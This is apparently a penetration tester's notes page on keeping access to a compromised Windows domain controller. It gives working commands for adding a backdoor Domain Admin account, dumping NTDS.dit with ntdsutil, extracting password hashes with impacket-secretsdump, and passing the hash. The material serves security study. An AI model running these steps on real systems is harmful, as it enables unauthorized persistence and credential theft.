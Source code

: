 ```yaml
---
title: Windows Persistence
draft: false
tags:
  - windows
  - persistence
  - ntds-dit
  - add-user
  - secretsdump
---
```


## Plot

Let's say you have successfully compromised the target system as root. However, you might not have stable shell connection such as SSH or you might not know the password and only have reverse shell connection.

These connections are still shell but it is loud and ugly. It is also complicated to reproduce. 

 Below are several ways of maintaining persistence once gained shell as a root.

## Adding Domain Admin User

I can simply create a new user and add the user in Domain Admins group as such:

```bash
net user jadu jadu101 /add
net group "Domain Admins" /add jadu
```
![](https://i.imgur.com/AfmJPXJ.png)



Now with evil-winrm, I can sign in as the created user:

![](https://i.imgur.com/y8ojooG.png)


## Dumping NTDS.dit

I can dump **NTDS.dit** to obtain hashes for users and pass those hashes to gain connection to the machine.

Below command dumps **SECURITY**, **SYSTEM**, and **NTDS.dit** file to Temp folder which could be downloaded to dump password hashes:

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`

![](https://i.imgur.com/5cMUA6O.png)


On **/Temp/registry**, I have **SECURITY** and **SYSTEM** file which I download to local machine:

```bash
download SECURITY
download SYSTEM
```
![](https://i.imgur.com/9NfYoBM.png)


On **/Temp/Active-Directory**, I have **NTDS.dit** file which I download to local machine as well:

```bash
download ntds.dit
```
![](https://i.imgur.com/ix6S7VR.png)


Now with **secretsdump**, I can obtain bunch of password hashes:

`root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local`

![](https://i.imgur.com/yi7hUfY.png)


I can try to crack these hashes, but it is not necessary. I can pass the **NT** part of the hashes to gain shell connection:

![](https://i.imgur.com/OsTxNof.png)



[Here](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/lateral-movement/alternate-authentication-material/wip-pass-the-hash) are more steps you can follow once you obtain hash for Administrator.
